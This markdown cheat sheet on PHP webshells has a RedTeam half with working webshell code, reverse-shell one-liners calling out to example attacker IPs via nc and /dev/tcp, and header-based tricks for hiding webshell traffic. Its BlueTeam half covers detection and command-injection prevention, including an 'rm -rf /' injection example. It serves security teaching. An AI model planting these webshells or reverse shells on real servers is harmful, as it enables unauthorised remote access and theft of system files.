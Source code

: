 # RedTeam

## Characteristic
- Script, which is written in language of target web server
   - PHP
   - Python
   - Ruby
   - Perl
   - ASP (Active Server Page)
   - Unix Shell Script
- Uploaded to enable remote access of the machine
- Servers that only host internal resources are also at risk
- Communication is simply over HTTP
- Usually installed via:
   - Document/file upload pages
   - Local File Include (LFI): Put webshell in page of webapp
   - Cross-site scripting (XSS)
   - Exposed Admin Interface (e.g. OWA/Outlook Web App, EAS/Exchange ActiveSync)
 
## Return list of dangerous enabled functions
```
<?php

//print_r = print variable information in readable form

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## Typical Webshell Commands
- `<?php system("whoami"); ?>`
- `<?php exec("whoami"); ?>`: Executes but returns nothing
- `<?php echo exec("whoami"); ?>`
- `<?php exec("whoami", $array); print_r($array); ?>`: Executes, returns output in array
- `<?php echo shell_exec("whoami"); ?>`: Executes, returns string
- `<?php passthru ("whoami"); ?>`: Executes, returns raw format
- ```<?php echo "<pre>`whoami`</pre>"); ?>```
- `<?php system($_GET['c']);?>`: www.example.com/demo/shell.php?c=whoami

## Example Webshells
```
<?php

// 1) Upload backdoor.php on web server
// 2) Enter URL --> http://example.com/backdoor.php?c=nc -e /bin/sh 10.10.10.7 4444

if(isset($_REQUEST['c'])){
        echo "<pre>";
        $c = ($_REQUEST['c']);
        system($c);
        echo "</pre>";
        die;
}
?>
```

- One liner: `<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'"); ?>`
    - This webshell invokes an interactive bash shell 
    - Shell traffic is routed to attacker machine with example IPv4 10.0.0.10 at port 1234
    - `0>&1` = STDIN is redirected to STDOUT

## Hide Webshell Traffic
1. `<?php system($_SERVER['HTTP_USER_AGENT'])?>`: Modify HTTP_USER_AGENT accordingly
2. `<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>`: Hide traffic along with uncommon parameter HTTP_ACCEPT_LANGUAGE
3. `<?php $_=$_POST['1'];  $__=$_POST['2']; $_($__); ?>`
    - Send POST request with variable '1' = 'system' and variable '2' = 'cat /etc/passwd'
    - The term `$_($__)` becomes then `system('cat /etc/passwd')`

<br />

# BlueTeam

## How to Detect
- Web serve Access/Error logs
- Notice of unusual timestamps
- Search for common strings in files or filenames (passthru|exec|eval...)
- Webshell signature scanner
- Search for very long strings, which may indicate encoding
- Search for files that were modified in the recent X days
   - `find -name '*.php' -mtime -1 -ls`
- Search for htaccess modification (false filename-extension mapping)
   - `addType application/x-httpd-php .htaccess`
   - `addType application/x-httpd-php .jpg`


## Command Injection Prevention
- Wrong: `<?php system('ls ' . $_GET['path']); ?>`  --> ls ; rm -rf /
    - the commmand `ls` gets interrupted and the attacker can enter another command like `rm -rf /`, which will delete the entire directory 
- Good: `<?php system('ls ' . escapeshellarg($_GET['path'])); ?>` --> ls 'rm -rf /'
    - the execution of malicious code is prevented since it gets interpreted as string

## Best Practice

- Set `allow_url_include` to "false" (Code Injection Prevention)
- Use `file_get_contents` to load ads etc. on your website, if any (this will reduce the attack surface, but XSS is still possible)
- Configure .htaccess properly


